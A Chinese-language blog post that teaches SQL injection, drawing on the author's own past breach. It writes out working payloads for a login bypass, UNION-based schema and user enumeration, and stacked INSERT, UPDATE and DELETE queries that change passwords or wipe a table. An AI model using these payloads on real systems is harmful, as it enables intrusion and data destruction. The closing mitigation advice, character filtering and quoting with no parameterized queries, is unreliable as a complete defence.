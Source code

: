 ```yaml
---
title: 技术场景之解决sql注入
cover:  /img/technology-sense/sql_inject_title.png
subtitle: 技术场景之解决sql注入
categories: "技术场景"
tags: "技术场景"
author:
  nick: 袁苏东
  link: https://github.com/yuansudong
typora-root-url: images
---
```


以前的无知,造就了一场场线上事故,现在回想起来,不忍想象.而这篇文章,主要聊聊SQL注入.曾经的自己,因为没有对接口参数进行规范化处理,导致了数据库被恶意客户端把数据库爬得一干二净.当时非常气恼,现在回想起来,我还要谢谢那个人,谢谢你没有把数据库的数据全给我清空.



### 1.什么是SQL注入



SQL注入,指服务器接口对用户输入数据的合法性没有判断或过滤不严,导致恶意客户端可以通过在参数中加入SQL语句,从而欺骗数据库,达到非正常授权的操作.



### 2.注入类型

 

### 01.数字型注入



当输入的参数为整型时，如ID、年龄、时间戳等，如果存在注入漏洞，则可以认为是数字型注入.



数字型注入最多出现在ASP、PHP等弱类型语言中，弱类型语言会自动推导变量类型.



比如，参数id=10，PHP会自动推导变量id的数据类型为int类型，那么id=8 and 1=1，则会推导为string类型，这是弱类型语言的特性.



而对于Go,Java,C#这类强类型语言，如果试图把一个字符串转换为int类型，则会抛出异常，无法继续执行。所以，强类型的语言很少存在数字型注入漏洞 .



### 02.字符型注入



当输入参数为字符串时，称为字符型。数字型与字符型注入最大的区别在于：数字型不需要单引号闭合，而字符串类型一般要使用单引号来闭合.



通过在字符型参数里,进行主动闭合.便可以让数据库忽略后续的查询条件.



比如,登录场景.用户需要填写用户名和密码,通过服务器进行验证,倘若密码以及用户名,服务器便会方法令牌,允许用户登录.



以前的一个同事大致是这么写的.



```
SELECT {{需要的数据}} FROM Account WHERE Account.UserName = @Username AND Account.Password = md5(@Password);
```



对于上面的SQL,只谈UserName不谈Password.



恶意客户端,可以通过在参数UserName中,植入SQL语句,达到不输入密码,只要用户名在数据库中存在,就可以访问系统的目的.



比如,恶意客户端在接口参数的UserName中,填入的是 admin" -- ,而服务器接口也没有对字符串参数进行处理.



直接将值放入SQL语句中,会构建出如下的SQL语句.



```sql
SELECT {{需要的数据}} FROM Account WHERE Account.UserName = "admin" --" AND Account.Password = md5(@Password);
```



从上面的颜色就可以看出,通过此等输入方式,后面的SQL语句就被注释掉了.



倘若根据这位同事的代码逻辑,这个登录接口就成了不需要密码登录的接口.



sql注入能干什么用途?



这一部分,我们以下列语句来事实SQL语句的注入,看一看SQL注入,到底能干些什么事情



```sql
SELECT * FROM Account WHERE Account.UserName = @UserName AND Password = @Password
```



### 01.通过SQL注入,获取数据库的版本



```
SELECT*FROM AccountWHERE Account.UserName = "user01"       AND mid(version(),1,3) = 8.0 -- " AND Password = @Password
```



倘若能够正常返回,或者返回期望的错误码,则证明该数据库的版本是8.0



### 02.获取数据表中的数据库信息



```sql
SELECT
	{{你需要的数据}}
FROM AccountWHERE Account.UserName = "user01" AND 0 = 1 UNION SELECT         information_schema.`COLUMNS`.TABLE_SCHEMA,        information_schema.`COLUMNS`.TABLE_NAME,        information_schema.`COLUMNS`.COLUMN_NAME,        information_schema.`COLUMNS`.IS_NULLABLE,        information_schema.`COLUMNS`.DATA_TYPE,        information_schema.`COLUMNS`.COLUMN_COMMENT,        information_schema.`COLUMNS`.COLUMN_KEY        FROM information_schema.`COLUMNS` WHERE information_schema.`COLUMNS`
```



### 03.获取数据库名称和当前用户名



```sql
SELECT
	{{需要的数据}}
FROM AccountWHERE Account.UserName = "user01" UNION SELECT 1,2,version(),user(),database() -- " AND Password = @Password
```



对于我的实验环境来说,返回的数据就是如下



```text
UserName  Password  Id      DeletedAt           CreatedAt1          2        8.0.21  root@192.168.42.1   SQL
```



### 04.新增数据



获取到数据库的信息后,我们就可以通过注入SQL语句,达到新增数据的目的.比如,下面的SQL语句.



```sql
SELECT * FROM Account
WHERE Account.UserName = "user01";INSERT INTO `SQL`.`Account`( `UserName`, `Password`, `CreatedAt`, `UpdatedAt`, `DeletedAt`) VALUES ('admin', 'md5(sasa)', '2021-01-03 17:03:51', '2021-01-03 17:03:54', '2021-01-03 17:03:57'); -- " AND Password = @Password
```



通过上述的SQL注入,就可以在数据库为SQL,数据表为Account的表中插入一行数据.



05.修改数据



```sql
SELECT * FROM Account
WHERE Account.UserName = "user01";UPDATE `SQL`.`Account`SET  Password = 'md5(new_password)'WHERE `SQL`.`Account`.UserName = "user01" -- " AND Password = @Password
```



通过上述的SQL注入,便可以达到修改其他用户密码的目的.恶意客户端修改密码之后,就可以登录,窃取相应的个人用户信息或者执行一些恶意操作.



### 06.删除数据



```sql
SELECT * FROM Account
WHERE Account.UserName = "user01";

DELETE FROM `SQL`.`Account` -- " AND Password = @Password
```



通过注入上述的SQL语句,可以达到在执行查询的同时, 清楚SQL.Account表.



### 07.如何避免注入



A.为每个账号非配一定的数据库权限.

B.对于强类型语言,接口中的字符串参数需要转义处理.比如golang中的strconv.Quote.

C.检查参数中是否包含着特殊字符.比如,;,#,--,/**/,',"等信息.

D.通过sqlmap工具进行盲注测试.